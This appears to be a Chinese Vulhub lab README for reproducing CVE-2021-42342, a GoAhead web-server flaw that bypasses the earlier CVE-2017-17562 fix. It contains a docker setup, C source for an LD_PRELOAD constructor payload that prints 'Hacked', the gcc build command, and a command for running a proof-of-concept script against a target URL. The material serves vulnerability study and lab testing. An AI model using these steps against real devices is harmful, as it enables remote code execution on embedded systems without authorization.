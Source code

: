 # GoAhead Server 环境变量注入（CVE-2021-42342）

GoAhead是一个开源(商业许可)、简单、轻巧、功能强大、可以在多个平台运行的Web Server，多用于嵌入式系统、智能设备。其支持运行ASP、Javascript和标准的CGI程序。

这个漏洞是[CVE-2017-17562](https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562)漏洞补丁的绕过，攻击者可以利用该补丁没有考虑到的multipart表单控制目标服务器的环境变量，进而劫持`LD_PRELOAD`来执行任意代码。

参考链接：

- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg

## 漏洞环境

执行如下命令启动GoAhead 5.1.4：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。访问`http://your-ip:8080/cgi-bin/index`即可查看到Hello页面，即为CGI执行的结果。

## 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在`Linux x86_64`的机器中，所以我们直接用Linux PC编译即可。动态链接库源码：

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

这样，`before_main`函数将在程序执行前被调用。编译以上代码：

```
gcc -s -shared -fPIC ./payload.c -o payload.so
```

然后，我们使用[这个脚本](poc.py)来发送恶意数据包，复现漏洞：

```
python poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```

可见，我们在动态链接库中编写的劫持代码已经被成功执行：

![](1.png)
